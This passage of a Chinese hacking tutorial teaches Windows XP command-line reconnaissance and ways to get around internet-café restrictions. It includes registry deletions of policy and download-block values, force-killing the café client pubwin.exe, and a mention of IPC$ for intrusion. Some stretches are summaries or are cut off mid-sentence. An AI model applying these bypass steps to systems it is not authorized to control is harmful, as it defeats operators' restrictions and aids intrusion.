我们经常接触到一个叫做通配符的东西，例如星号（*）或问号（?）。当查找文件、文件夹、打印机、计算机或用户时，你可以使用它来代表一个或多个字符。通配符可以代表数字、字母和符号，星号代表一个字符串，问号只代表一个字符。通常我们在查找一个文件或文件夹的时候，忘记了它们的名字或者只记得其中的一部分，这时候通配符就派上用场了。比如我要查找一个文件，但是只记得它名字的前三个字符为 pub，这时候查找的对象就可以使用 `pub*`，所有前三个字母是 pub 的文件都可以被搜索到，比如 pubwin、public 等。当然，如果你记得这个文件的名字是四个字符的话，用问号替代星号可以缩小搜索范围；如果是五个字符的话，就用两个问号搜索：`pub??`。如果你记得那个文件的类型的话，比如是可执行的 EXE 文件，搜索的时候可以加上文件后缀，比如 `pub*.exe`，这时候所有前三个字符是 pub 的 `.exe` 类型文件都会被搜索到，比如 pubsrv.exe、pubwinclient.exe。简单吧！

使用通配符可以增加工作效率或者很巧妙地解决很多问题，大家自己去发掘吧！

- **1.4.3、命令行下的复制与粘贴**

复制和粘贴是非常有用的功能，它们可以帮助用户减少很多工作量，一般我们在文本框等位置才可以用它们。那在命令行下是否可以用呢？答案是肯定的，别看平时我们在命令提示符中点鼠标、拖鼠标，里面什么反应都没有，其实是没有激活它的标记功能。我们在命令提示符的窗口中单击鼠标右键并选择“标记”，如图 1-4-1。

这时候你就可以在 CMD 框里拖拽鼠标选中其中的内容了，如图 1-4-2。

如果你想复制的话，在选中的内容上单击一下鼠标右键就可以了。在命令行中粘贴内容必须使用鼠标右键的快捷菜单，CMD 是不支持复制和粘贴快捷键的。这样的话，命令行中输出的内容也可以保存在本地的文件中了，so easy！

到这里，命令行的基础就讲完了，虽然是基础，如果不进行大量练习的话是很快会忘记的。学以致用这句话的确很对，学了如果不用那还有什么价值呢？并且用的过程也是一个进步和学习的过程，这其中你会发现很多新的东西，笔者觉得这就是乐趣。总之要想成为命令行的操作高手，多多练习是必不可少的，想玩得转吗？想玩出新花样吗，那先把基础打扎实吧！


## 2、命令行的本地利用

### 2.1、命令行下的本地信息获取

信息收集是一个黑客必备的基本技能，也是 hacking 的必要步骤。对于一些本地信息，微软同样提供了 GUI 和 CUI（Console User Interface）两种接口查看，GUI 下的系统信息查看可以通过“系统信息”“计算机管理”“设备管理器”之类的程序，这些在网吧中一般我们轻易访问不到。其实上述程序获得的信息大部分我们用 cmd ...命令也可以得到。我们可以在本机获得的信息有：系统信息、IP以及网络配置信息、系统用户及组名、进程、端口、服务列表以及共享信息。有些信息是我们直接利用的，比如机器名、用户名；有些信息是为了利用社会工程学而收集的（关于社会工程学，第五章会有讲解）。下面我们就每一项的命令进行讲解。

## 2.1.1、Systeminfo

一般的命令名称都是根据其作用而定的。英文好的朋友要记住这些命令也就不是很难了。`systeminfo` 是用来获取系统信息的（info 是 information 的简写），非常详细。`systeminfo` 命令是从 WinXP 开始系统自带的命令，但是 WinXP 的 Home 版本是没有这个命令的。直接键入命令后回车便可以得到系统信息，非常方便，如图2-1-1。

Systeminfo 给出了很多系统信息，有操作系统信息、用户信息、硬件信息、补丁信息等，除了图上看到的外，最下面还有网卡信息。我们认为比较重要的有主机名、操作系统类型、系统目录以及补丁信息。


## 2.1.2、Ipconfig & Tracert

### a、Ipconfig

Ipconfig 是 IP 和 configuration 的缩写合成，它是用来显示所有当前网络配置相关信息的。在命令行下直接键入 `ipconfig` 可以获得本地 IP（IP Address）、子网掩码（Subnet Mask）和默认网关 IP（Default Gateway），如图2-1-2。

Ipconfig 有一个 `/all` 参数，加上后可以获得网络配置的详细信息，如图2-1-3。

我们看到多出的信息有主机名称（Host Name）、IP 路由功能是否开启（IP Routing Enabled）、WINS 代理服务是否开启（WINS Proxy Enabled）、网卡描述、网卡的物理地址（Physical Address）、DHCP 服务情况以及 DNS 服务器（DNS Servers）。另外 WinXP 提供了一个命令 `getmac`，可以直接得到网卡的物理地址。

### b、Tracert

Tracert 命令是用来探测路由的，它发送一个数据包到一个地址，并列出包到达目的地中途经过的所有节点信息，这些节点就是路由器。Tracert 基本的命令格式为 `tracert address`，其中的 address 可以是域名，也可以是 IP 地址，如图2-1-4是我发送数据包到 Google 的某台服务器经过的路由器的 IP 地址列表。

那这个又有什么用呢？当然有用了！通过这个列表我们可以获得默认网关的 IP（就是序号为一的 IP），网关连接因特网而通过的 ISP（因特网服务提供商）那边的某台主机 IP，这对于我们搞清网络的布局是十分有帮助的。


## 2.1.3、Net user & Net Localgroup

相信一些朋友对这两个命令已经很熟悉了，防止知识脱节，我不得不在这讲一下了。直接键入 `net user` 就可以获得系统中所有已存在的用户名了。使用 `net user administrator` 命令可以获得用户 administrator 的详细信息，如图2-1-5。

如果你想获得管理员组的用户信息，需要用 `net` 命令的 `localgroup` 参数，输入 `net localgroup` 可以获得系统中存在的所有组，如图2-1-6。其中 `\\FOX` 中的 `FOX` 是计算机名（注意这里的计算机信息是不同的，因为我的图片不是在同一台电脑上抓的，见谅了），而如果要查看某个组中的用户成员都有哪些，输入命令 `net localgroup username`，如图2-1-7是我查看管理员组中的成员。


## 2.1.4、Netstat -an

官方对 Netstat 命令的描述为显示协议统计信息和当前 TCP/IP 网络连接，这里我们只用其中的几个参数。在网吧这种统一的环境下，获得本地的端口号基本等于获得了其他客户机的端口号，从而初步判断目标是否存在某个漏洞而省去了扫描的麻烦。用户名、服务和共享亦是如此，这便体现了网吧环境里本地信息收集的必要性。在命令行下键入 `netstat -an` 就可以获得一个端口列表，如图2-1-8。


我们发现这里 Netstat 命令的可选项是用短横线引导的，并且两个可选项可以连接起来一起使用，其实使用斜线也是可以的，这也可以看出命令行程序的灵活性。其中 `-a` 参数是用来显示所有连接和监听端口的，而 `-n` 则是以数字形式显示地址和端口号。在 Windows XP 中（我这里是专业版，不知道其它版本有没有），Netstat 命令增加了一个可选项 `-o`，用来显示与每个连接相关的进程的 ID 信息，输入命令 `netstat -ano` 后如图2-1-9。

这样我们就可以知道哪个进程使用了哪个端口，这也是非常有用的。在图中有五列给出了网络连接的信息，其中 Proto 是连接使用的协议（Proto 是 Protocol 的缩写），通常使用的协议有 TCP 和 UDP；Local Address 即本地 IP，在 IP 后面跟了一个冒号，冒号后面就是这个连接使用的本地 IP 的端口；Foreign Address 是连接的另一方的 IP 地址和它开的端口信息；State 是连接状态，其中 **Listening** 是监听状态，该状态在监听的端口上等待一个来自外部的连接，然后作出一定反应；**ESTABLISHED** 是使用状态，表示这个连接正在使用，或者说连接的双方正在通信，比如我正在正常浏览网页，这时候连接状态就是 ESTABLISHED 了。除了这两个最常见的状态外，还有以下状态：`CLOSE_WAIT`、`CLOSED`、`FIN_WAIT_1`、`FIN_WAIT_2`、`LAST_ACK`、`LISTEN`、`SYN_RECEIVED`、`SYN_SENT`、`TIME_WAIT`。

PID 列列出的就是进程的 ID 号码了，其中 P 就是 Process（进程）的缩写，每个进程都有唯一一个 PID。


## 2.1.5、Net Start

服务作为 Windows 的一个重要的概念多次被提到，在上一章中我们用 MMC 查看了服务的相关信息，而在命令行下我们也可以完成同样的任务。我们需要获得当前已经启动的服务列表，在 CMD 中键入 `net start` 就可以了，服务名按字母顺序排列，如图2-1-10。

开启了好多服务啊，那是相当的不安全哟！不过从 WinXP 开始，微软为用户提供了一个专门管理服务的命令行工具，它的功能非常强大，可以创建服务、删除服务、配置服务、开启服务和关闭服务。关于这个工具的更多内容将放到后面讲解，敬请关注！


## 2.1.6、Net Share

共享一直是安全关注的焦点，开启一个共享无非是又给敌人提供了一条攻击你的途径。用 `net share` 可以查看本地的默认共享信息，如图2-1-11。这里 admin$ 共享的本地目录是 `c:\windows`，因为我的 OS 是 WinXP，在 Win2000 下 admin$ 共享的是 `c:\winnt` 目录，Win2003 同 WinXP。不要忘记 IPC$，它永远是我们入侵系统的得力助手。

## 2.1.7、Tasklist

Task 是任务的意思，list 是列表的意思，因此这个命令就是列出任务的功能了，任务就是进程啦！不带任何参数输入 `tasklist` 可以查看系统的所有进程，如图2-1-12。

图像名下面的就是进程名称了，其中 System Idle Process 是系统空闲，PID 就是我们前面提到过的进程 ID 号。Tasklist 有一个参数 `/svc`，它可以让我们找到进程与服务之间的对应关系，如图2-1-13。

命令 `tasklist /m` 可以让我们获得每个进程所加载的模块信息，如图2-1-14。

到这里，基本所有重要的系统信息我们都收集完了，我们不仅获得了信息本身，同时通过这些信息还间接了解到了当前环境的安全程度。信息搜集不仅用在网吧破解上，对于后面的入侵更是相当重要，这里提供命令行下的实现方法。

## 2.2、命令行下的本地限制破解

### 2.2.1、命令行的破解神话

语言的魅力，它只有一个简单的提示符，却可以完成那么多复杂的操作。这种简约而不简单的风格使我深深爱上了黑屏，虽然我们要讲的是 Microsoft 的命令行程序，但还是希望自己可以有机会畅游在 LINUX/UNIX 命令的海洋中。

在 LINUX/UNIX 中，有一个十分重要的概念叫做 SHELL，一些技术文档中也常提到这个词，那什么是 SHELL 呢？

> 【什么是SHELL】  
> SHELL 的本意是外壳，这里理解为人与操作系统（或者其它能够处理数据的实体）对话的一个媒介。用户在 SHELL 中进行一些操作或者键入一些命令，SHELL 接收到这些并进行处理，然后把处理后的指令发送给操作系统，操作系统再执行相应的操作。可以说 SHELL 是操作者（用户）和一个系统之间的媒介。我们通常说的 CMDSHELL 其实就是一个命令提示符，常见的还有 WEBSHELL，就是通过 WEB 界面交互操作的工具。

听过有人说 CMD 只是 Shell，最初不理解这句话的意思，只当是臆想。后来反复咀嚼这句话倒有了一些体会：命令提示符 CMD 其实和 MMC 一样是一个控制台，它除了内部命令外，其功能的扩展都要依靠外部的命令行程序，这些程序需要在 CMD 中才能正确执行。CMD 对应的是 CUI（控制台用户界面），而 GUI 的程序就可以看成与 CMD 对应的一种 SHELL 了。我们平常在网吧中接触的都是 GUI 程序，破解都是在 GUI 下进行的。GUI 下可以完成的操作，CUI 下同样可以完成，那我们为什么不去理会那些 GUI 下的限制而直接在 CUI 下进行操作呢？对！这就是本节内容的核心，利用命令提示符突破网吧限制。网吧的限制都是针对图形用户界面的，而在 CMD 下的操作都是在命令控制台界面下进行的，它们属于不同的操作接口，因此我们可以在命令行下解除限制或者藐视限制，直接进行网吧不允许的操作。

笔者希望通过使用这些命令完成网吧破解的同时，读者能够进一步熟悉命令行下的操作以及掌握更多的命令，破解只是手段，获得才是目的。那么让我们开始命令行下的破解之旅吧！

### 2.2.2、Regedit 的命令行用法

Regedit 是注册表编辑器，它是 GUI 界面程序这毋庸置疑，但它的确可以在命令行下使用，这是真的！在第一章中我们知道可以用注册表脚本文件编辑注册表，首先编写一个注册表脚本文件，然后双击导入即可。但这样导入同样是在 GUI 下进行的，阻止访问注册表编辑器后是无法导入注册表脚本的。而 Regedit 的命令行功能就是用来实现注册表脚本文件的导入和导出的，讲得倒神秘，其实使用起来非常简单，我们先来讲注册表脚本的导出方法。命令格式为：`regedit /e reg_file regpath`，比如我要导出 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，本地保存文件为 explorer.reg，如图2-2-1。


要知道可以导出的只有注册表项，键是无法导出的。文件导出成功后不会有任何提示，你只要去当前目录内查找文件就可以了。大家知道这个项下限制了很多东西，编辑刚才导出的注册表文件，把 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下所有的内容都删除，保存退出，把这个注册表脚本导入就可以解除很多限制了。如何导入注册表脚本呢？其命令格式为 `regedit /s regfile`。导入注册表脚本同样不会有任何提示，而这一步……进而解除 N 多网吧限制。需要注意的是，如果注册表编辑器被禁止访问的话，regedit 是无法在命令行下导出注册表脚本的，但是可以导入，这就要求你要手工编写注册表脚本了。而如果管理员用组策略禁止组策略编辑器时选择了“禁止后台运行 regedit”，那 regedit 在命令行下的注册表脚本导入也是无法使用的，会出现注册表编辑器被禁用的提示，如图2-2-2。


其实 regedit 的这个特性更多时候是用在网络渗透中，我们这里用它来做网吧破解也算是创新了。不过破解 regedit 不专业啊！它的功能太少并且有限制，那我就介绍一个玩注册表的专业网吧杀手给你认识！

### 2.2.3、REG——强大的命令行注册表编辑器

REG 是 Windows 控制台注册表工具，我这里版本为 3.0，从 WinXP 开始它被默认安装在操作系统中（难道从前也是 ResourceKit 的一员？），用户可以使用 reg.exe 在命令行下编辑注册表，在 CMD 中输入 reg 便可查看帮助，如图2-2-3。

我们看到 REG 有 11 个操作选项，它们是 QUERY（查看注册表的子项下的项和下一层子项的列表）、ADD（将新的子项或项添加到注册表中）、DELETE（从注册表删除项或子项）、COPY（将一个注册表项复制到本地或远程计算机的指定位置）、COMPARE（比较指定的注册表子项或项）、EXPORT（将指定子项、项和值的副本创建到文件中，即导出注册表项到脚本文件）、IMPORT（将包含导出的注册表子项、项和值的文件复制到本地计算机的注册表中，即导入注册表脚本文件）。SAVE、LOAD、UNLOAD 和 RESTORE 四个操作同样是用来保存和加载注册表项副本的，这里不做讲解。


一个返回值告诉用户结果，返回值除了 COMPARE 外只有两个：0 是成功，1 是失败。这些操作你可以用 `REG 操作名称 /?` 查看用法，比如 `REG ADD /?`。下面我们逐一讲解这些操作的用法。

### a、ADD

从名称我们也可以看出它的功能，`REG ADD` 不仅可以添加项，也可以添加不同类型的键。命令格式为：`reg add Full_Reg_Path option`。其中 Full_Reg_Path 由根键和注册表路径组成，根键常用缩写有：`HKLM`、`HKCU`、`HKCR`、`HKU`、`HKCC`。

例如在 `HKEY_CURRENT_USER` 下添加名为 test 的项，命令可写为 `REG ADD HKCU\TEST`。在该项下建立名为 `fornever`、值为 `1` 的 DWORD，命令示例：`reg add hkcu\test /v fornever /t reg_dword /d 1`。

`/v` 指定新建值名称，`/t` 指定数据类型，`/d` 指定值数据。常见类型包括 `REG_SZ`、`REG_MULTI_SZ`、`REG_DWORD`、`REG_BINARY`、`REG_EXPAND_SZ` 等。


如果要修改默认键值，可用 `/ve` 替代 `/v ValueName`。`REG ADD` 也可以覆盖已有值；若不想提示直接覆盖，可在命令末尾加入 `/f` 参数。

### b、QUERY

`QUERY` 用于查看某项下子项或值的名称、类型与数据。示例：`reg query hkcu\test`。值信息按名称、类型、数据列出；名称为“<没有名称>”的是该项默认值。

只查询某一个值可用 `/v`；只看默认值可用 `/ve`；递归查看某项下所有子项与键值可用 `/s`。


### c、DELETE

删除功能用于移除注册表项或键值（本页仅出现开头，后文续页展开）。


为例子。在第一章中，我们学习了控制是否允许下载的项是 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3`，其下有一个名称为 1803 的 DWORD 值，我们只要把这个值删除了就可以解除禁止下载了，输入命令 `reg delete "hkcu\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3" /v 1803`，如图2-2-10。


同样是用 `/v` 指定要删除的值的名称，如果要删除默认值可以用 `/ve` 参数，如果要删除该项下的所有值请用 `/va` 参数替代 `/v`，使用 `/f` 参数不用提示就强行删除。如果要删除整个项，命令格式为：`reg delete Full_Reg_Path`，如果路径中有空格，那必须用引号将路径包含起来。

### d、COPY

COPY 是把一个项下的内容（子项和键）复制到另外一个项中，如果复制到的项不存在，则先新建再复制。其用法和前几个很相似，比如我要将 `HKEY_CURRENT_USER\TEST` 中的值复制到 `HKEY_CURRENT_CONFIG\test` 项中，如图2-2-11。默认情况下是只复制项中的键，如果指定了 `/s` 就会复制项下的所有子项和键到另一个项，如图2-2-12。

### e、COMPARE

COMPARE 用来比较两个注册表项下的子项和键值，最基本用法是 `reg compare Full_Reg_Path_1 Full_Reg_Path_2`，如图2-2-13。

“Result Compared: Different” 给出的比较结果为不同，只有当所有的子项和键都完全相同时比较结果才会是统一的。示例比较的是项下的所有键并且显示结果为只显示不同的地方，我们可以用 `/v` 指定比较的键，用 `/oa` 指定显示不同之处和匹配的地方，如图2-2-14。


比较结果前面有小于号（<）的是值比较小的键，有大于号（>）是比较大的值，而等号（=）当然就是匹配的键了。这里是二进制值 fox 的名称、类型、数值数据完全相同。除了用 `/oa` 显示所有的不匹配结果外，我们还可以用 `/od` 只显示不同的结果，`/os` 只显示匹配结果，`/on` 不显示结果。如果你要比较项下的所有子项及其键值，则在命令最后加 `/s` 参数，比较默认值时用 `/ve` 代替 `/v` 参数。

- 0 —— 比较成功，比较的结果相同
- 1 —— 比较失败
- 2 —— 比较成功，比较的结果不同


### f、EXPORT & IMPORT

这两个自然是导出和导入注册表脚本的命令了，使用很简单。比如我要导出 `HKEY_CURRENT_USER` 下的 `test` 项到本地的注册表脚本文件 `test.reg`，命令为 `reg export hkcu\test test.reg`，这将把 `test.reg` 文件保存到使用 reg 命令时所在的本地磁盘路径。定路径；而导入注册表脚本的命令就更简单了，如图2-2-15。


### 2.2.4、START 命令的用法

Start 命令用来在 cmd 中启动一个新窗口运行一个程序或命令。它和“运行”非常相似。文中说明了在命令行中可直接输入如 `gpedit.msc` 或 `start gpedit.msc`，并讨论了在受限环境下通过 `start` 打开目录或程序的方式。


文中进一步说明：`start .` 可表示当前目录，也可通过路径直接打开目标目录，例如 `start c:\windows\system32`，用于在图形界面受限时进入目录。

### 2.2.5、路径映射命令 SUBST 的利用

Subst 命令可以把本地路径映射到驱动器盘符。文中给出格式：`SUBST [drive1: [drive2:]path]`，并举例将 `c:\windows` 映射到 `z:`，命令如 `subst z: c:\windows`。


文中说明映射后对 `Z:` 的修改会作用到原路径；若映射整个 C 盘可用 `subst z: c:\`；取消映射用 `subst z: /d`。并指出该方法有一定局限。

### 2.2.6、进程结束命令 Taskkill

该节介绍使用 Taskkill 结束进程。可通过进程名或 PID 结束，如 `taskkill /im taskmgr.exe` 或 `taskkill /pid 1504`；必要时可加 `/f` 强制结束，例如 `taskkill /f /im pubwin.exe`。


### 2.2.7、关机命令 Shutdown

相信大家对这个程序已经很熟悉了，它从前同样是 Resource Kit 中的一员，在 WinXP 中被默认安装在系统中了。它有 CUI 和 GUI 两种界面，我们可以用 SHUTDOWN 在命令行下注销系统、关机或者重启，尤其是注销有时候在网吧破解卡是很重要的哦！首先来看 Shutdown 的帮助文档，如图2-2-19。

注销的命令就是 **shutdown -l** 了（用 `/l` 替代 `-l` 也是可以的），而关机和重启则需要用 `/t` 指定一个时间（以秒为单位），Shutdown 在过了这个时间段后才会执行关机或者重启，比如 **shutdown /r /t 60**，那系统将会在 1 分钟后重新启动计算机，而如果不用 `/t` 指定倒计时时间的话，默认为 30 秒。关机倒计时会弹出一个“系统关机”的消息框，提示用户离关机还有多少时间。在等待关机的这段时间内，如果你改变主意不想关机了，在命令提示符中输入 **shutdown -a** 就可以了，这个命令曾经救了多少中了冲击波病毒的人。


### 2.2.8、命令行下的文本编辑器 Edit

Edit 其实是一个十六位的命令行程序，从它窗口的样式我们就可以看出了。在 CMD 中直接输入 `edit` 就可以使用这个编辑器了，如图2-2-20。


大家也许发现了这个程序和其它命令行程序的不同之处，其实它就像记事本一样是一个文本编辑程序，而最大的不同就是这个命令行程序支持鼠标的操作，这是很少见的，如图2-2-21。


那些菜单以及选项都可以用鼠标直接点击，如果你苦于无法获得一个文本文档的时候，不妨用 Edit 替代一下。比如我想写一个注册表脚本文件，然后导入到注册表中。不好的事，Edit 无法使用系统的剪贴板，它所有的复制粘贴操作都仅限于当前的文本框中，因此我们只有一句一句输入代码了，相当痛苦。输入完后选择“File”——“Save”，在“File Name”中输入保存的文件名，如图2-2-22。


然后点击“OK”就可以保存文件了，文件保存在运行 Edit 时 CMD 指向的目录，如果你想指定目录的话，在“File Name”的地方加上路径就可以了，比如 `c:\test.reg`。退出 Edit 只需要选择“File”菜单中的“Exit”，退出的就不再是 cmd 了，而是 command 了，要想回到中文界面的命令提示符，输入命令 `start cmd`。

## 3、命令行的网络应用

网络应用是 NT 相对前几个版本的 Windows 操作系统的重要改进，发展到 Windows XP，系统的网络支持更加强大了。命令行程序的网络功能也在 WinXP 中被增强了很多，这给习惯用命令行的网络管理员带来了福音，却也使热爱网络安全的朋友方便了很多，一些操作我们只要使用 XP 中一些自带的程序就可以完成，再也不用苦苦上网搜寻第三方工具了。本节将针对一些网络命令进行讲解，并在后面对 NT 的命令行网络功能增强做具体的说明和实例演示。这些内容有利于我们的远程信息刺探，也是为后面将要讲解的网吧入侵打基础，熟悉各种网络工具应用并了解它们出错的原因，对将会讲解的网络知识也是一个铺垫。

### 3.1、网络诊断能手 PING

PING 命令常被网络管理员用在网络诊断上，它依靠 ICMP 协议发送一个请求到一台远程主机并等待远程主机的回复，以探测本地主机与远程主机是否连通，它是基于 TCP/IP 网络设计的（关于协议的相关概念将在第五章讲到）。在网络安全界，PING 命令也是信息探测的能手，黑客们通常用它探测远程主机的操作系统、IP 地址以及计算机名称，下面让我们分别来实现这些。

### 3.1.1、探测远程主机的 OS

OS（Operation System，操作系统），黑客们利用 PING 命令返回的 TTL 值来初步判断远程操作系统的类型。TTL 是 Time To Live 的缩写，即生存时间，每个类型的操作系统有一个默认的生存时间，数据包每经过一个路由，这个生存时间的值就会减一，如果生存时间减少到 0 了，这个包将会被丢弃，这时候数据包中的数据将无法到达目的地。这样做的目的是防止网络阻塞，同时使用 TTL 也是 TCP/IP 的一种包重发机制。我们一般探测的远程主机不会通过太多的路由，所以最后得到的 TTL 值和默认的 TTL 值不会差太多，也就可以判断操作系统的类型了。说了这么多头晕了吧，让我们来看实际操作，在命令行下输入 `ping 192.168.0.1` 就可以尝试探测 192.168.0.1 的操作系统类型了，如图3-1-1。

我们看到返回了很多信息，第一行指出了包的大小是 32 字节，这个也是默认的；`Reply from 192.168.0.2: bytes=32 time<1ms TTL=128` 表示来自 192.168.0.2 的回复包的大小同样为 32 字节，返回时间小于 1 毫秒，返回包 TTL 值为 128。一共出现了同样四行这样的信息，说明发送了四个数据包（这也是默认的）。我 PING 的时候是和对方在一个内网中，因此没有通过路由，TTL 值也就没有减少，所以返回速度也就那么快了。对方操作系统同样为 WinXP，因此 WinXP 的默认 TTL 值就是 128 了，除了 WinXP 外，Windows NT4.0/2000/2003 的默认 TTL 都是 128，其它常见的操作系统的 TTL 默认值为：**Windows 95/98/NT 3.51：32，Linux：64，Unix：255**。

我们继续往下看，其中的 `Packets: Sent = 4, Received = 4, Lost = 0 (0% loss)` 表示发送和收到都是 4 个包，因此丢失 0 个。之所以说是初步探测远程主机的操作系统类型，是因为 TTL 值是可以修改的（一般默认值都是可以修改的），具体说是在注册表中修改的。我们来到这里：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`，其中有一个 `DefaultTTL` 的 DWORD 值，其数据就是默认的 TTL 值了，我们可以随意修改，不过不可以大于十进制的 255。通过修改 TTL 值我们可以欺骗用 PING 探测操作系统类型的家伙，让它们误以为我是其它的 OS，比如我修改成 255，呵呵。


### 3.1.2、探测远程主机的 IP 或主机名

如果你事先得到了目标主机的主机名，那得到它的 IP 地址将是很容易的事情，这里我 Ping 一台名称为 FOX 的主机，如图3-1-2。

在得到结果的计算机名后面的就是这台主机的 IP 地址 192.168.0.21，而要想逆向获得一台已知 IP 目标主机的名称，则需要使用 `-a` 参数，这个参数将对目的 IP 地址进行反向名称解析，如果解析成功，ping 将显示相应的主机名，用法为 `ping -a IP`。不过笔者的几次试验中都没有成功解析到 IP 的主机名；没有关系，后面我们还可以用别的命令获得目标的主机名。

### 3.1.3、PING 的其它选项

前面我们发的数据包大小都是 32 Bytes，发送包数量为 4，那这些默认值怎么更改呢？我们可以用 `-l` 和 `-n` 参数分别指定包的长度和发送包的数量。比如我要发送 21 个大小为 114 Bytes 数据包到 192.168.0.2，则命令为 `ping 192.168.0.2 -n 21 -l 114`，如图3-1-3。

如果我们想要不停地发包，也不用不停地输入命令或者用 `-n` 指定一个很大的值，用 `-t` 参数就可以自动实现了，如图3-1-4。

一直到你按下 Ctrl+C 或者 Ctrl+Break 之前都会不停地发包。大家也发现了有时候不会有返回结果，而返回的则是 Request timed out，意思是请求超时，这时候就可以把超时时间设置得稍微长一些，以确保可以连接上。我们可以使用 `-w` 参数设置超时时间。`-w` 设置的时间单位是毫秒，默认的超时时间是 4000，即 4 秒，我们可以设置得稍微长一些，比如 7 秒，则命令为 `ping IP -w 7000`。在网络知识的学习中经常会遇到超时这个概念，它是很重要的。它会提高网络连接的效率，而一个比较长的超时则正相反，过长的超时可能造成网络阻塞。

在 TCP/IP 网络中还有一种处理包的方法：当一个数据包过大时，比如我们把一个数据包的大小设置为 65527 Bytes 时，它在被传送前就被分为 N 段然后分段进行发送，然后到达目的地后再进行重组以恢复发送的原始数据包。PING 命令的 `-f` 参数可以强制阻止自己发送的包被分段，它出现在命令的最后，如图3-1-5。

我们看到的并不是前面那样的显示回复信息，而是告诉用户包必须被拆分成碎片进行发送，但是 PING 的 `-f` 参数设置了禁止拆分包，因此最后的结果是发送四个包收到 0 个包，百分百的掉包率。


### 3.2、NetBIOS 工具 NBTSTAT

我们可以用 Nbtstat 探测远程主机的 NetBIOS 信息，从而间接获得对方的主机名和域名，前提是对方必须安装了 NETBEUI 协议。NetBIOS 在局域网中应用非常广泛，它被用来提供文件和设备共享，但是它同时也是泄露信息比较严重的方式之一。这里我们将要用到的 Nbtstat 参数有三个：`-A`、`-a` 和 `-n`，和其它命令行工具有些不同的是，Nbtstat 的命令行参数区分大小写。接下来我们一个一个来看这些参数的用法。

### 3.2.1、刺探远程主机的 NetBIOS 名称表

如果远程主机安装了 NETBEUI 协议的话，用 Nbtstat 获得对方的 NetBIOS 名称表是一件很容易的事情，图3-2-1是我刺探一台主机的 NetBIOS 信息的例子。

从这个名字表中我们就可以获得对方主机的计算机名以及域名，其中 A02 就是计算机名，而 WORKGROUP 就是工作组，即域名了。判断计算机名比较容易，而判断域名则需要一些经验，WORKGROUP 是 Windows 的默认域名。


> **[指点]**  
> 有时候你用 `-a` 参数想要获得对方 NetBIOS 名称表的时候，得到的却是“Host not found”。造成这类结果的原因有三个：对方不在线；你的主机没有安装 NETBEUI 协议；对方主机没有安装 NETBEUI 协议。Nbtstat 是通过对方的 NetBIOS 共享打开的端口获得信息的，如果这些端口被关闭了，也是无法得到任何信息的。

除了远程计算机外，我们还可以查看一台安装了 NETBEUI 协议的本地计算机的 NetBIOS 名称表，命令为 **nbtstat -n**，如图3-2-2。


### 3.2.2、查看 NetBIOS 名称缓存

对用 Nbtstat 查询过的计算机的 NetBIOS 信息，一定时间内本地都会保存查询到的信息，它们被保存在 NetBIOS 缓存中，用 **nbtstat -c** 便可查看缓存内容，从中我们可以得到计算机名和 IP 地址的对应关系，如图3-2-3。我们可以手工清除 NetBIOS 名称缓存的内容，命令为 **nbtstat -R**。


### 3.3、网络路径探测工具 Tracert

Tracert 通过发送一个“ICMP 协议询问请求”的消息给目标主机以确定到达目标的路径。当 Tracert 完成任务后，所显示的路径是源主机与目标主机间路径中的路由器列表，在命令行下不带参数直接输入 `tracert` 将显示帮助。用 Tracert 命令可以使我们了解到达一台主机的网络路径，我们都会通过哪些主机，这也有利于我们搞清网络的布局结构，也可以间接用作网络是否连通的诊断工具。对我们来说，前面的作用似乎更为重要一些。比如我想搞清楚从我这台主机到达 `www.google.com` 这台主机都需要经过哪些主机，输入命令 `tracert www.google.com`，如图3-3-1。


从图中我们可以看出中途经过了 13 个路由，最终到达了目标主机。Tracert 指定的目标可以是主机名也可以是 IP 地址，当目标是主机名的时候，tracert 会自动解析主机名所对应的 IP 地址，而默认情况下它也会将某些 IP 地址逆向解析为主机名。在图3-3-1中我们也看到编号为 7 的路由的 IP 地址 `202.99.160.1` 被解析了主机名 `3e3-rt1-a-sj1.he.cn.net`。你也可以阻止 Tracert 试图将中间路由器的 IP 地址解析为它们的名称，这样可加速显示 tracert 的结果，对应参数为 **/d**，用法如图3-3-2。


对比图3-3-1我们可以发现时间缩短了很多，并且也没有解析 IP 的主机名。用户还可以指定 Tracert 最多经过的路由数量，这可以帮助用户放弃那些多于指定数量的路径，不指定的情况下默认最多经过 30 个路由。这里我手工指定最多跳过 7 个跃点，如图3-3-3，达到 `3e3-rt1-a-sj1.he.cn.net` 后由于已经经过了 7 个路由，所以不再被传送到接下去的路径，因此只返回经过的 7 个路由，这从标号很直观地可以看出。

### 3.4、DNS 服务器验证工具 Nslookup

我们在进入一个网站的时候需要输入域名，而 TCP/IP 网络需要的是 IP 地址，承担 IP 地址与域名转换任务的就是 DNS 服务器了。Nslookup 的官方描述为显示可用来诊断域名系统（DNS）基础结构的信息，我们重视的是作用：它可以帮我们验证 DNS 服务器是否可用，可以解析 DNS 服务器名称，也可以查看指定域中的所有主机列表。其命令格式为：`nslookup Address`，比如我要验证本地的 DNS 服务器，同时查看 `www.baidu.com` 这个域的所有主机。


第一部分出现的就是 DNS 的地址和名称，说明这个 DNS 服务器是可用的。你用 `ipconfig /all` 命令查看将会发现这个 DNS 就是使用的第一个 DNS 服务器（一般情况下还有一个备用的 DNS 服务器地址）。第二部分的 Addresses 中的地址就是 `www.baidu.com` 这个域中所有主机了。

### 3.5、超级网络工具 Netsh

Netsh 是一个功能强大的综合网络配置与查看工具，而其重点在于配置，即可以修改网络配置，这是 Ipconfig 和 Netstat 两个命令无法做到的。Netsh 有很多子命令，用户用这些子命令完成查看和修改本地网络配置的任务，并且 Netsh 支持将配置信息输出到文本文件中，或从一个具有标准格式的文本文件导入并修改网络配置。Netsh 还支持通过脚本操作，总之其功能实在是相当强了。这里我们只要会用它进行网络配置信息查看和修改网络配置就可以了。


### 3.5.1、网络配置的查看

